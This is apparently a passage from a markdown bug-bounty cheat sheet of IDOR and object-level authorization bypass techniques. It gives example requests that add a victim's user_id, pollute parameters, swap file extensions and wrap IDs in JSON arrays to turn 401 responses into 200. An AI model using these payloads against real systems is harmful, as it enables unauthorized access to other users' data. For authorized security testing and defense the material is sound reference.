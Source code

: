```bash
GET /api/users/user_id ->
GET /api/users/*
```

* Never ignore encoded/hashed ID

```bash
for hashed ID ,create multiple accounts and understand the ppattern application users to allot an iD
```

* Google Dorking/public form

```bash
search all the endpoints having ID which the search engine may have already indexed
```

* Bruteforce Hidden HTTP parameters

```bash
use tools like arjun , paramminer 
```

* Bypass object level authorization Add parameter onto the endpoit if not present by defualt

```bash
GET /api_v1/messages ->200
GET /api_v1/messages?user_id=victim_uuid ->200
```

* HTTP Parameter POllution Give mult value for same parameter

```bash
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```

* change file type

```bash
GET /user_data/2341        -> 401
GET /user_data/2341.json   -> 200
GET /user_data/2341.xml    -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt    -> 200
```

* json parameter pollution

```bash
{"userid":1234,"userid":2542}
```

* Wrap the ID with an array in the body

```bash
{"userid":123} ->401
{"userid":[123]} ->200
```

* wrap the id with a json object
